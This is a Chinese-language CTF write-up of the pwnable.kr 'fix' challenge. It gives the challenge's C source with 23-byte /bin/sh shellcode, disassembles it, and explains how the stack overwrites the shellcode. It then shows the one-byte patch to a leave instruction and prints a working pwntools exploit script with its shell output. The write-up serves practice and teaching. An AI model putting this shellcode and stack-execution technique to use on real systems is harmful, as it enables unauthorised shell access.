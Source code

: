 ```yaml
---
title: pwnable.kr-fix
date: 2018-02-27 22:46:00
tags: [pwnable.kr,PWN]
categories: CTF
copyright: true
---
```

# 前言
看似简单的改代码题，但是还是需要强大的汇编知识。花了很长时间，主要是自己对指令不是很熟悉。
# 分析
先分析源码`fix.c`
```c
#include <stdio.h>

// 23byte shellcode from http://shell-storm.org/shellcode/files/shellcode-827.php
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		"\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void shellcode(){
	// a buffer we are about to exploit!
	char buf[20];

	// prepare shellcode on executable stack!
	strcpy(buf, sc);

	// overwrite return address!
	*(int*)(buf+32) = buf;

	printf("get shell\n");
}

int main(){
        printf("What the hell is wrong with my shellcode??????\n");
        printf("I just copied and pasted it from shell-storm.org :(\n");
        printf("Can you fix it for me?\n");

	unsigned int index=0;
	printf("Tell me the byte index to be fixed : ");
	scanf("%d", &index);
	fflush(stdin);

	if(index > 22)	return 0;

	int fix=0;
	printf("Tell me the value to be patched : ");
	scanf("%d", &fix);

	// patching my shellcode
	sc[index] = fix;	

	// this should work..
	shellcode();
	return 0;
}

```
程序逻辑简单，如题目所说`shellcode`无法正确执行，但我们只能修改其中一个字节。看了`shellcode`函数，开始以为是地址布置出错，但是看了反汇编代码发现返回地址的计算没有错误，于是反汇编一下`shellcode`看看有没有问题
```nasm
Python 2.7.12 (default, Dec  4 2017, 14:50:18) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> a="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
>>> a+="\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
>>> print disasm(a)
   0:   31 c0                   xor    eax,eax
   2:   50                      push   eax
   3:   68 2f 2f 73 68          push   0x68732f2f
   8:   68 2f 62 69 6e          push   0x6e69622f
   d:   89 e3                   mov    ebx,esp
   f:   50                      push   eax
  10:   53                      push   ebx
  11:   89 e1                   mov    ecx,esp
  13:   b0 0b                   mov    al,0xb
  15:   cd 80                   int    0x80
>>> 

```
仔细分析代码发现`shellcode`并没有问题，后来放在gdb调试的时候发现在执行`shellcode`的时候，`shellcode`的代码会变化。。这就很奇怪了，啥问题呢？仔细分析栈空间的排布就知道了，`shellcode`布置在栈中占了`23`个字节，`buf`变量的位置是`ebp-0x1c`（反汇编代码就能看出），所以`shellcode`尾部达到了`ebp-5`,然而函数返回执行`shellcode`时`esp`指向返回地址下面4个字节，这里相距`shellcode`有`13`字节，所以后续的`pop`操作只能执行3次，否则就会覆盖`shellcode`的部分代码，造成执行失败。
知道了失败的原因那么如何通过只修改一个字节达到执行成功的目的呢？这里确实得熟悉汇编指令才行，我的思路是修改`push eax`为`leave`指令（他们都是单子节指令），这样当执行到这里时就相当于执行了`mov esp，ebp;pop ebp`。于是栈顶就下降了后续的`pop`就不会修改`shellcode`了，但是这样的话`shellcode`虽然会正确执行但是会报错
```bash
root@1:~/桌面/test$ ./fix
What the hell is wrong with my shellcode??????
I just copied and pasted it from shell-storm.org :(
Can you fix it for me?
Tell me the byte index to be fixed : 15
Tell me the value to be patched : 201
get shell
/bin//sh: 0: Can't open ����
                             P��c
root@1:~/桌面/test$ 
```
这说明我们已经成功执行`/bin/sh`了，但是似乎这样的修改增加`/bin/sh`的参数。确实如此，执行`leave`指令后，栈已经变了，就无法保证`ecx`指向的第二个字符串是0,所以可能就会多出别的参数。这里可以根据错误提示新建一个和错误提示的一样的文件，然后在里面写入`sh`，这样当再次执行程序时，就会试图执行这个文件的命令了。另外这个多出的参数由于是栈上的数据，而不是栈地址，所以它不具有随机性，所以这种方法可行而且实际上确实可行。下面贴出exp
```python
from pwn import *

def work():
    context(arch='i386',os='linux',log_level='info')
    the_path = '/home/fix/fix'
    r = process(the_path)
    
    #r.recvuntil("fixed : ")
    r.sendline("15")
    #r.recvuntil("patched : ")
    r.sendline("201")
    r.recvuntil('get shell\n')
    error_text = r.recvline()
    r.kill()
    
    a = error_text.find('open ')
    fname = error_text[a+5:-1]
    f = open(fname,'w')
    f.write('sh\n')
    f.close()
    
    r = process(the_path)
    r.sendline("15")
    r.sendline("201")
    r.interactive()

work()
```
```bash
fix@ubuntu:/tmp$ python 1.py
[+] Starting local process '/home/fix/fix': Done
[*] Stopped program '/home/fix/fix'
[+] Starting local process '/home/fix/fix': Done
[*] Switching to interactive mode
What the hell is wrong with my shellcode??????
I just copied and pasted it from shell-storm.org :(
Can you fix it for me?
Tell me the byte index to be fixed : Tell me the value to be patched : get shell
$ ls
ls: cannot open directory '.': Permission denied
$ cd /home/fix
$ ls
fix  fix.c  flag  intended_solution.txt
$ cat flag
Sorry for blaming shell-strom.org :) it was my ignorance!
$  
```
注意要把exp上传题目平台执行
# 总结
虽说是改代码的题，但是还是学到了很多。